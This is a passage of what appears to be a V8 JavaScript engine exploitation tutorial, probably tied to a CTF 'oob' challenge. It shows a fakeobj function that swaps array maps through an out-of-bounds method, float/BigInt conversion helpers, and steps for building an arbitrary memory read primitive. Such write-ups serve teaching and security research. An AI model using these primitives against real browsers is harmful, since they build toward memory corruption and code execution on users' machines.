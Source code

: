 ```
    // Return the address as a BigInt
    return ftoi(addr);
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    fl_arr[0] = itof(addr);

    // Change the float array's map to the obj array's map
    fl_arr.oob(map1);

    // Get a "fake" object at that memory location and store it
    let fake = fl_arr[0];

    // Set the map back
    fl_arr.oob(map2);

    // Return the object
    return fake;
}
```

Here is the helper functions:

```
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

### Arbitrary Read & Write Primitives

#### Arbitrary Read Primitive
To establish an arbitrary address read primitive using `addrof` and `fakeobj`, the process involves manipulating a float array and creating a fake object. Here's a concise explanation of the steps:

1. Create a Float Array: Start with a float array of exactly four elements. The element object of this array will be positioned at the lower 0x30 of the float array object.
2. Create a Fake Object: Transform the elements into a fake object, with the type set as a float array.
3. Place Target Address: Position the target address at element[2] of the float array. This position will be interpreted as the element field of the fake object.
4. Access the Fake Object: By accessing index 0 of the fake object, V8 attempts to retrieve the value at `target address + 0x10`.
